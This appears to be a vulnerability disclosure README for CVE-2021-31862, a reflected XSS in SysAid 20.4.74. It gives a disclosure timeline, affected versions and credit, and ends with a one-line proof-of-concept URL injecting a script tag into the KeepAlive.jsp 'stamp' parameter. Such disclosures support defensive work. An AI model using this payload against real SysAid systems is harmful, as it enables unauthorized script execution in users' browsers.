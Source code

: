 # CVE-2021-31862

SysAid 20.4.74 allows reflected XSS via the KeepAlive.jsp parameter, without authentication.


Timeline

Discovered: April 28, 2021

Initial Vendor Contact: April 28, 2021

Reported: April 28, 2021

CVE ID issued: April 28, 2021

Secondary Vendor Contact: (Vendor did not reply to initial contact): May 28, 2021

Public Release: October 29, 2021

Affected Versions:

20.4.74 and prior

Credit:

Citadel Cyber Security (https://www.citadel.co.il/)


POC Exploit:

The following URL path and query parameters will trigger an XSS vulnerability.

/KeepAlive.jsp?stamp=<script>alert(1)</script>&tabID=10&lastClick=1618311643298


![image](https://user-images.githubusercontent.com/68341018/139206439-dca9e0ba-5213-458b-8811-4e2ced3d8c73.png)
